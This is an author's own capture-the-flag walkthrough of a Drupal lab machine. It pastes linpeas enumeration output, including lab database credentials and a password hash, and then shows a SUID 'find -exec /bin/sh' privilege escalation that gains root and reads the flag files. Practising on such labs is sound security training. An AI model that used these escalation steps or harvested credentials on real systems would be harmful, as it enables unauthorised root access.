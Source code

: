 
**Ran linpeas and searched thru output\.**

**1\) Exim running as user 101:
**
101       3086  0\.0  0\.0   7424   144 ?        Ss   03:31   0:00 /usr/sbin/exim4 \-bd \-q30m

2\) ╔══════════╣ Analyzing \.socket files
╚ [https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets](#https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets)

/lib/systemd/system/dbus\.socket is calling this writable listener: /var/run/dbus/system\_bus\_socket
/lib/systemd/system/dbus\.target\.wants/dbus\.socket is calling this writable listener: /var/run/dbus/system\_bus\_socket
/lib/systemd/system/sockets\.target\.wants/dbus\.socket is calling this writable listener: /var/run/dbus/system\_bus\_socket

3\) ╔══════════╣ Unix Sockets Listening
╚ [https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets](#https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets)

/dev/log
└─\(Read Write\)
/run/acpid\.socket
└─\(Read Write\)
/run/dbus/system\_bus\_socket
└─\(Read Write\)
**/run/mysqld/mysqld\.sock
**└─\(Read Write\)
/run/rpcbind\.sock
└─\(Read Write\)
/run/udev/control
└─\(Read \)
/var/run/acpid\.socket
└─\(Read Write\)
/var/run/dbus/system\_bus\_socket
└─\(Read Write\)
/var/run/mysqld/mysqld\.sock
└─\(Read Write\)
/var/run/rpcbind\.sock
└─\(Read Write\)

4\) ╔══════════╣ Active Ports
╚ [https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports](#https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports)

tcp        0      0 0\.0\.0\.0:22              0\.0\.0\.0:\*               LISTEN      \-               
tcp        0      0 127\.0\.0\.1:25            0\.0\.0\.0:\*               LISTEN      \-               
**tcp        0      0 0\.0\.0\.0:37701           0\.0\.0\.0:\*               LISTEN      \-               
tcp        0      0 127\.0\.0\.1:3306          0\.0\.0\.0:\*               LISTEN      \-               
**tcp        0      0 0\.0\.0\.0:111             0\.0\.0\.0:\*               LISTEN      \-               
tcp6       0      0 :::22                   :::\*                    LISTEN      \-               
tcp6       0      0 ::1:25                  :::\*                    LISTEN      \-               
tcp6       0      0 :::45295                :::\*                    LISTEN      \-               
tcp6       0      0 :::111                  :::\*                    LISTEN      \-               
tcp6       0      0 :::80                   :::\*                    LISTEN      \-               


5\) ╔══════════╣ Checking sudo tokens
╚ [https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens](#https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens)

ptrace protection is enabled \(\)
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it

6\) ╔══════════╣ Last logons
reboot   system boot  Tue Mar 29 00:34:33 2022 \- Tue Mar 29 22:26:56 2022  \(21:52\)     0\.0\.0\.0
reboot   system boot  Tue Mar 29 00:31:08 2022 \- Tue Mar 29 00:32:25 2022  \(00:01\)     0\.0\.0\.0
root     tty1         Thu Feb 28 12:10:51 2019 \- down                      \(00:00\)     0\.0\.0\.0
root     tty1         Thu Feb 28 12:10:25 2019 \- Thu Feb 28 12:10:43 2019  \(00:00\)     0\.0\.0\.0
reboot   system boot  Thu Feb 28 12:10:13 2019 \- Thu Feb 28 12:11:16 2019  \(00:01\)     0\.0\.0\.0
**support  pts/0        Tue Feb 19 22:57:25 2019 \- Tue Feb 19 23:51:06 2019  \(00:53\)     192\.168\.0\.100
**root     tty1         Tue Feb 19 22:56:36 2019 \- down                      \(00:55\)     0\.0\.0\.0
reboot   system boot  Tue Feb 19 22:56:17 2019 \- Tue Feb 19 23:51:58 2019  \(00:55\)     0\.0\.0\.0

7\) ╔══════════╣ Analyzing Drupal Files \(limit 70\)
\-r\-\-r\-\-r\-\- 1 www\-data www\-data 15989 Feb 19  2019 /var/www/sites/default/settings\.php
'database' =\> 'drupaldb',
**'username' =\> 'dbuser',
'password' =\> 'R0ck3t',
**'host' =\> 'localhost',
'port' =\> '',
'driver' =\> 'mysql',
'prefix' =\> '',
\*   $drupal\_hash\_salt = file\_get\_contents\('/home/example/salt\.txt'\);
$drupal\_hash\_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';

8\) ╔══════════╣ Analyzing Backup Manager Files \(limit 70\)

\-rw\-r\-\-r\-\- 1 www\-data www\-data 270 Nov 21  2013 /var/www/modules/simpletest/tests/upgrade/drupal\-6\.user\-no\-password\-token\.database\.php
\-rw\-r\-\-r\-\- 1 www\-data www\-data 1114 Nov 21  2013 /var/www/modules/simpletest/tests/upgrade/drupal\-6\.user\-password\-token\.database\.php
'pass',
'pass' =\> '$S$DAK00p3Dkojkf4O/UizYxenguXnjv',

9\) ╔══════════╣ Searching uncommon passwd files \(splunk\)
passwd file: /etc/pam\.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash\-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

**10\) SUID: \-rwsr\-xr\-x 1 root root 159K Jan  6  2012 /usr/bin/find
\-rwsr\-xr\-x 1 root root 9\.5K Jun 20  2017 /usr/lib/pt\_chown  \-\-\-\>  GNU\_glibc\_2\.1/2\.1\.1\_\-6\(08\-1999\)

Stopping here to check gtfobins and try this, haven't seen it:
****
find \. \-exec /bin/sh \-p \\; \-quit****
**
**Tried this, failed:
**
find \. \-exec /bin/sh \\; \-quit
/bin/sh: 0: Illegal option \-p
/bin/sh: 0: Illegal option \-p
/bin/sh: 0: Illegal option \-p
id
uid=33\(www\-data\) gid=33\(www\-data\) groups=33\(www\-data\)

**Tried without \-p, OH SHIT:

**find \. \-exec /bin/sh \\; \-quit

id
uid=33\(www\-data\) gid=33\(www\-data\) euid=0\(root\) groups=0\(root\),33\(www\-data\)

**Looks like I am group root now, wowsers\.\. 

**ls /root
proof\.txt
thefinalflag\.txt
ls /root \-lsaF
total 36
4 drwx\-\-\-\-\-\-  4 root root 4096 Apr 11 03:33 \./
4 drwxr\-xr\-x 23 root root 4096 Feb 19  2019 \.\./
4 drwx\-\-\-\-\-\-  2 root root 4096 Mar 29 22:56 \.aptitude/
4 \-rw\-\-\-\-\-\-\-  1 root root    6 Mar 30 00:31 \.bash\_history
4 \-rw\-r\-\-r\-\-  1 root root  949 Feb 19  2019 \.bashrc
4 drwxr\-xr\-x  3 root root 4096 Feb 19  2019 \.drush/
4 \-rw\-r\-\-r\-\-  1 root root  140 Nov 20  2007 \.profile
4 \-rw\-r\-\-r\-\-  1 root root   33 Apr 11 03:33 proof\.txt
4 \-rw\-r\-\-r\-\-  1 root root  173 Feb 19  2019 thefinalflag\.txt
cat /root/proof\.txt
66877b1efa7e72bad25c67adaf8f2e03
cat /root/thefinalflag\.txt
Well done\!\!\!\!

Hopefully you've enjoyed this and learned some new skills\.

You can let me know what you thought of this little journey
by contacting me via Twitter \- @DCAU7

**

11\) ╔══════════╣ Unexpected in root
/initrd\.img
/initrd\.img\.old
/vmlinuz\.old
/vmlinuz
/selinux

12\) **╔══════════╣ Files \(scripts\) in /etc/profile\.d/
╚ [https://book.hacktricks.xyz/linux-unix/privilege-escalation#profiles-files](#https://book.hacktricks.xyz/linux-unix/privilege-escalation#profiles-files)

total 12
drwxr\-xr\-x  2 root root 4096 Feb 19  2019 \.
drwxr\-xr\-x 86 root root 4096 Mar 30 00:32 \.\.
\-rw\-r\-\-r\-\-  1 root root  660 Jun 18  2012 bash\_completion\.sh
**
13\) OMg, here it is:
**══════════╣ Searching root files in home dirs \(limit 30\)
/home/
/home/local\.txt
/root/
/root/\.profile
/root/\.drush
/root/\.drush/drush\.complete\.sh
/root/\.drush/drush\.prompt\.sh
/root/\.drush/cache
/root/\.drush/cache/usage
/root/\.drush/cache/download
/root/\.drush/cache/download/https\-\-\-updates\.drupal\.org\-release\-history\-views\-7\.x
/root/\.drush/cache/download/https\-\-\-ftp\.drupal\.org\-files\-projects\-views\-7\.x\-3\.20\.tar\.gz
/root/\.drush/cache/download/https\-\-\-updates\.drupal\.org\-release\-history\-drupal\-7\.x
/root/\.drush/cache/download/https\-\-\-ftp\.drupal\.org\-files\-projects\-ctools\-7\.x\-1\.15\.tar\.gz
/root/\.drush/cache/download/https\-\-\-updates\.drupal\.org\-release\-history\-ctools\-7\.x
/root/\.drush/cache/download/https\-\-\-ftp\.drupal\.org\-files\-projects\-drupal\-7\.24\.tar\.gz
/root/\.drush/drushrc\.php
/root/\.drush/drush\.bashrc
**/root/proof\.txt
/root/thefinalflag\.txt
**/root/\.bash\_history
/root/\.bashrc
/root/\.aptitude
/root/\.aptitude/cache

/usr/sbin/tcptraceroute
/usr/sbin/exipick
/usr/sbin/groupmod
/usr/sbin/VBoxControl
**
14\) **╔══════════╣ Searching installed mail applications
exim
sendmail
**

**15\) ╔══════════╣ Searching tables inside readable \.db/\.sql/\.sqlite files \(limit 100\)
Found: /var/lib/apt/listchanges\.db: Berkeley DB \(Hash, version 9, native byte\-order\)

16\) **interesting files \(writable\):**
/var/www/includes/database/database\.inc
/var/www/includes/database/log\.inc
/var/www/includes/database/mysql
/var/www/includes/database/mysql/database\.inc
/var/www/includes/database/mysql/install\.inc

/var/www/modules/node/node\.admin\.inc
/var/www/modules/node/node\.api\.php

/var/www/modules/path/path\.admin\.inc
/var/www/modules/path/path\.api\.php


17\) ╔══════════╣ Interesting GROUP writable files \(not in Home\) \(max 500\)
╚ https://book\.hacktricks\.xyz/linux\-unix/privilege\-escalation#writable\-files
Group www\-data:
/var/www/sites/default/files
/var/www/sites/default/files/styles

18\) ╔══════════╣ Searching \*password\* or \*credential\* files in home \(limit 70\)
/etc/pam\.d/common\-password
/etc/ssl/private/ssl\-cert\-snakeoil\.key
/usr/lib/grub/i386\-pc/password\.mod
/usr/lib/grub/i386\-pc/password\_pbkdf2\.mod
/usr/share/man/man7/credentials\.7\.gz
/usr/share/pam/common\-password
/usr/share/pam/common\-password\.md5sums
/var/cache/debconf/passwords\.dat
/var/lib/pam/password
/var/www/includes/password\.inc
/var/www/modules/simpletest/tests/password\.test
/var/www/modules/simpletest/tests/upgrade/drupal\-6\.user\-no\-password\-token\.database\.php
/var/www/modules/simpletest/tests/upgrade/drupal\-6\.user\-password\-token\.database\.php
/var/www/scripts/password\-hash\.sh

\<\-\-\-